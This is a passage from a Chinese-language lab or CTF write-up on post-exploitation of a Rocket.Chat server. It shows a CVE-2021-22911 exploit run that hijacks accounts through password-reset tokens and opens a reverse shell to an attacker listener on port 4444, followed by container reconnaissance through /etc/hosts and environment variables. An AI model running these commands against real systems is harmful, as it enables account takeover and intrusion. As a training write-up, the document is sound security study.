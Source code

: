 

## 后渗透

### rocketchat (172.17.0.3)

执行我们得到的程序之后我们就可以得到一个 Shell

```bash
root@ip-10-10-141-243:~/rocket/CVE-2021-22911# python3 exploit.py  -u test@qq.com -a admin@rocket.thm -H http://chat.rocket.thm/ --ip 10.10.141.243 --port 4444
[+] User: test@qq.com exists
[+] Attempting to Authenticate With Provided Password
[-] Unable to Authenticate
[+] Commencing Account Takeover!
[+] Password Reset Email Sent
[+] Pulling Password Reset Token
[+] Reset Token: TPFfxF5xOaYMrnL6DO9wK7mWSDXDzFTJWdTDuWrC0Xc
[+] Password was changed to P@$$w0rd!1234
[+] NO 2FA DETECTED
[+] User: admin@rocket.thm exists
[+] Attempting to Authenticate With Provided Password
[-] Unable to Authenticate
[+] Commencing Account Takeover!
[+] Password Reset Email Sent
[+] Pulling Password Reset Token
[+] Reset Token: JgdjZNHvR2jIG--dpYZW2udwFSPnvfH2VGgFmvcA8PY
[+] Password was changed to P@$$w0rd!1234
[+] Succesfully authenticated as administrator
[+] Sending Reverse Shell Integration
[+] Shell for 10.10.141.243:4444 Has Executed!
```

![image-20240709232026877](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-232028.png)

经过一系列的信息收集, 我判断这是一个 DOCKER 环境, 并且系统中存在 Docker 环境, 在 Docker 中进行信息收集我获取到一些信息

1. 主机信息

    ```bash
    (remote) rocketchat@c2c82695ecf1:/app/bundle/programs/server$ hostname -I
    172.17.0.3 
    (remote) rocketchat@c2c82695ecf1:/app/bundle/programs/server$ cat /etc/hosts
    172.17.0.2	db f012d09a863c  # 从这里我们可以直到这是一个数据库
    172.17.0.3	c2c82695ecf1
    ```

2. 查看环境变量信息, 从这里我们可以直到 DB 位于 `172.17.0.2:27017` , 有一个 MONGO 的 web 程序其对应端口为 8081

    ```bash
    (remote) rocketchat@c2c82695ecf1:/$ env
    Direct_Reply_Port=
    Direct_Reply_Frequency=5
    DB_PORT_27017_TCP_PORT=27017
    DB_ENV_MONGO_REPO=repo.mongodb.org
    DB_PORT_27017_TCP=tcp://172.17.0.2:27017
    DB_PORT=tcp://172.17.0.2:27017
    DB_PORT_27017_TCP_ADDR=172.17.0.2
    DB_ENV_MONGO_PACKAGE=mongodb-org
    MONGO_WEB_INTERFACE=172.17.0.4:8081
    DB_NAME=/rocketchat/db
    MONGO_OPLOG_URL=mongodb://db:27017/local
    Direct_Reply_IgnoreTLS=false
    ```
